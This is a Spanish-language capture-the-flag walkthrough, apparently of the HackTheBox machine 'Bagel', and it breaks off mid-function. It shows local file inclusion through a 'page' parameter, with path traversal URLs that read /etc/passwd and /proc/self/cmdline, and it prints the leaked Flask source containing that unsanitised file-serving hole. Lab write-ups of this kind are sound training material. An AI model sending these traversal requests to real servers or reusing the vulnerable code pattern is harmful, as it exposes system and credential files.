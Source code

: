 # Análisis de página web (puerto 8000):

- De primeras, al entrar nos redirecciona al dominio `"bagel.htb"` el cual lo tendremos que añadir al `"/etc/hosts"`

- Al acceder a la web, no vemos nada interesante, sin embargo si revisamos el link podemos ver un posible `LFI` ya que se está llamando un parámetro "page".

```
http://bagel.htb:8000/?page=../../../../../../../etc/passwd
```

- Nos da la opción de descarga el archivo "passwd" lo que confirma el LFI, descargamos el archivo y enumeramos los usuarios del sistema:

```bash
$cat passwd | grep "sh"
```

```
phil
developer
```

- Al no encontrar nada interesante con una búsqueda típica de LFI, comenzamos a enumerar recursos más complejos, como listar los `procesos`:

```
http://bagel.htb:8000/?page=../../../../../../../proc/self/cmdline
```

- Descargamos el archivo `"cmdline"` y vemos el contenido:

```bash
$cat cmdline
```

```bash
python3/home/developer/app/app.py
```

- Intentamos acceder a este supuesto archivo que se está ejecutando como proceso dentro del sistema:

```
http://bagel.htb:8000/?page=../../../../../../../home/developer/app/app.py
```

- Descargamos y analizamos el código del archivo:

```python
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json
app = Flask(__name__)
@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)
@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
```